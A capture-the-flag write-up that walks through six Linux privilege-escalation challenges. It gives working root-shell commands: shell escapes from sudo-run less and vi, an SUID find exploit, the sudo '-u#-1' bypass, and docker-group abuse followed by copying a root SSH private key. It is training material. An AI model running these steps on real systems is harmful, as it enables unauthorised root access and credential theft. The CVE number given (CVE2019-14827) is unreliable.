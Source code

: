 ## Solutions 
- This is a list of solutions to various Linux priv esc Gauntlet.

### first_priv 

- Login using SSH
- This can be done with ssh first_priv@<ip> -p 2226
	- The password is the same as the username.
- Type ``sudo -l`` to see what sudo permissions you have
- Turns out you can do everything as sudo
- This could be a safe assumption that you are in the sudoers group.
- You can either type ``sudo cat /root/flag.txt`` or ``sudo su`` to become root then cat out the root file
- SC3{FIRST_PWN!}

### second_priv 

- Same login steps
- Type ``sudo -l`` to see what sudo permissions you have
- Looks like you can run the ``less`` command with sudo permssions
- less essentially displays a file for you and give you the ability to scroll through the file.
- Puts you in a ``less`` terminal
- You can ESCAPE this ``less`` terminal into a shell
- make a random file in /tmp directory because you have permissions there
- ``sudo less /tmp/random.txt``
- Once in the ``less`` terminal type ``!sh`` to escape into a sh shell
- This will give you a root shell
- ``cat /root/flag.txt``

SC3{L3SS_1S_M0rE}

### third_priv

- Same login steps

- Typing ``sudo -l`` gives you ``command not found`` error
- Users would need to understand absolute paths in order to understand this challenge
- Explain to users what absolute paths are and what PATH variables are used for hints
- ``echo $PATH`` to show path variable and verify that /bin/sh is not there, thus the box not recognizing certain commands such as sudo, vi, etc 
- With research, they will know ``sudo`` exists in the ``/usr/bin`` directory
- type ``/usr/bin/sudo -l`` to see what you can do
- Turns out you can specifically do this: ``/usr/bin/vi /opt/reminder.txt`` with sudo permissions
- This means you can run vi as sudo, but only for this particular file.
- Run ``sudo /usr/bin/bi /opt/reminder.txt``
- Now you are in vi terminal
- Just like with ``less`` you can escape to a shell by typing ``:!sh``
- You are now root
- ``cat /root/flag.txt``

SC3{MuSt_N33D_AbS0lUT3!}




### fourth_priv

- same login steps

- Notice now, there is nothing for ``sudo -l``
- Is there another way we can run a command with sudo permissions?
- The power of SUID bit
- Run this on terminal: ``find / -perm -u=s -type f 2>/dev/null; find / -perm -4000``
- This can be found anywhere online when searching up suid priv esc
- This essentially looks through entire file system for files that have the suid bit on and for the root user. 
- And if there are any errors, STDERROR (2) , they are put into /dev/null which basically is like a black hole
- Running this, there is one command that is interesting: ``/usr/bin/find``
- Use the trusty gtfobins.com to see what you can find on that.
- Turns out you can make a shell
- Run the line under the SUID section ``find . -exec /bin/sh -p \; -quit``
- The ``-p`` is extremely important. This magic flag prevents running sh using the .bashrc configuration of the current user
- otherwise, you would simply get a shell with the same user. 
- Now you are root
- ``cat /root/flag.txt``

SC3{The_P0w3r_0F_Su1D!}


### fifth_priv

- same login steps

- Type ``sudo -l`` There is a very interesting output. Doing some searching, you can understand what ``(ALL, !root) /bin/bash``
- This means that your user, can run sudo on the /bin/bash on any user EXCEPT for root 
- This teaches students that technically, the sudo command is simply running a command as another user. When you the omit what particular user, it just defaults to you trying to run a command as root
- Reading the man page of sudo explains this and shows that you can specify which user you want to use based on their id
- id's of users can be found in /etc/passwd or type ``id`` for your id
- Ex; ``sudo -u#1000 /bin/bash`` will run the /bin/bash as the user pertaining to id 1000
- For versions of sudo 1.8.24 and below, it is vulnerable to priv esc
- Specifically CVE2019-14827
- This explains that the function that maps the id number to the user incorrectly translates the number ``-1`` and its unsigned equivalent ``4294967295`` and translates it to ``0`` which, based on /etc/passwd is the id for root
- Thus, you can bypass the rule in the sudoers file. If you give ``sudo -u#0`` this will automatically fail as ``0`` pertains to root, but the two numbers speficied above do not pertain to the root user, thus bypassing the restriction, but then once its translated, it turns to 0, thus giving you the permission to run as root
- Running ``sudo -u#-1 /bin/bash`` will give you a root shell
- ``cat /root/flag.txt`` 

SC3{NuMb3rs_G1v3_U_R00T}

	
	
### sixth_priv
	
- same login steps

- trying all the previous steps would not work
- This challenge regardless still focuses on what the user's capabilities can do
- In this case, what capabilities can he do based on the GROUPS that he is in
-if you type ``id`` or ``group`` you will see that sixth_priv user is in the docker group
- Right away you should search up ways in how to take advantage and escalate privs by being part of the docker group
- With docker permissions you can list out the running dockers and grant yourself a root shell in any of those containers
- This does not mean you get root on this particular box, but getting root somewhere else can be beneficial as their might be info there for you to use.
- Type ``docker container ps`` to see the running dockers
- Type ``docker run -it take_my_job bash`` to give your self an interactive bash shell in the take_my_job container
- Now you are root in this container
- Going to root folder, there is not a root flag
- But upon closer inspection, there is a .ssh folder and here you see there is id_rsa file. A private key. Perhaps this can be used to login as root in the other box??
- Copy and paste this file locally
- Type ``chmod 600 id_rsa`` to give file valid permissions
- Finally run ``ssh -i id_rsa root@<IP> -p 2231``
- This teaches that students that you can also login through ssh using crptographically generated keys. No password needed.
- You are now root
- Run ``cat /root/flag.txt``

SC3{D3Is0laTED_AND_D3Thr0N3D}
